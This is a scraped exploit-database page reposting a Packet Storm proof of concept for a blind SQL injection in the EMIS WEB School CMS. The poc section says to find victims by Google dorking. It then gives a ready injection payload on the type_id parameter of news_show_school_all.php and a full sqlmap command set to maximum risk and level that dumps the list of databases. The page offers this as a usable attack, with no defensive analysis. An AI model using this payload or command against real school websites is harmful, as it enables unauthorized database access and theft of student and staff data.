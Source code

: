 ```yaml
---
title: EMIS WEB School CMS 1 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:174040&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-09
fetch_date: 2025-10-04T12:00:08.321141
---
```


# EMIS WEB School CMS 1 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for EMIS WEB School CMS 1 SQL Injection

2023-08-08 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:174040
====================================================================================================================================
| # Title : EMIS WEB School CMS V 1 blind SQL injection Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 69.0(32-bit) |
| # Vendor : http://www.emis.gob.pk/ |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine.

[+] use payload : /web/news_show_school_all.php?School_ID=1067380121&type_id=1001%20AND%203*2*1%3d6%20AND%20166%3d166

[+] D:\sqlmap>sqlmap.py -u https://127.0.0.1/bobec/bopp-obec.info/web/news_show_school_all.php?School_ID=1067380121&type_id=1001 --risk=3 --level=5 --random-agent --user-agent -v3 --batch --threads=10 --dbs

Greetings to :=================================================================
jericho * Larry W. Cashdollar * shadow_00715 * LiquidWorm * Hussin-X * D4NB4R |
===============================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)